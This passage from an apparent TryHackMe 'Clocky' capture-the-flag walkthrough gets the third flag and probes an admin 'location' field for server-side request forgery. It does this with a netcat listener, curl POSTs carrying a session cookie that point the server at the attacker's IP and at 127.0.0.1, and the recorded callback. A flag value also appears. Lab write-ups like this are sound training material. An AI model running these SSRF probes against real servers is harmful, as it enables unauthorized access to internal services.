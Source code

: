 Once we change the password of the administrator, we can log into the app and read the third flag on the home page.
![](/assets/img/posts/walthrough/tryhackme/2024-10-20-clocky/third-flag.png)

## Fourth Flag

The admin panel has an input field named location. When we enter a random word and click on the download button, an empty file named `file.txt` is downloaded. We can guess that the server fetches this file from the location we entered. Let's test if the parameter is vulnerable to SSRF. For this, we can start a listener on our attack host and send our IP address as the location. 
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Clocky]
└─$ nc -lvnp 80             
listening on [any] 80 ...
```

```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Clocky/Misc File]
└─$ curl http://10.10.46.31:8080/dashboard -H "Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.ZxJ22g.93hnFnlxzd2drMkpiGKXKR83_08" -X POST -d 'location=http://10.21.68.180'   
```

```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Clocky]
└─$ nc -lvnp 80             
listening on [any] 80 ...
connect to [10.21.68.180] from (UNKNOWN) [10.10.46.31] 60706
GET / HTTP/1.1
Host: 10.21.68.180
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

We see that the target accessed our listener. Unfortunately, when we try to access the local IP address of the server we get the error message `Action not permitted`. This might be due to some filters put in place on the server side.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Clocky/Misc File]
└─$ curl http://10.10.46.31:8080/dashboard -H "Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.ZxJ22g.93hnFnlxzd2drMkpiGKXKR83_08" -X POST -d 'location=http://127.0.0.1:8000/index.zip'  
<SNIP>
    <body>    
            <center> <h2>Administrator dashboard<br><br>Flag 3: THM{ee68e42f755f6ebbcd89439432d7b462}</h2>   
        <form action="/dashboard" method="POST">
            <div class="container">
```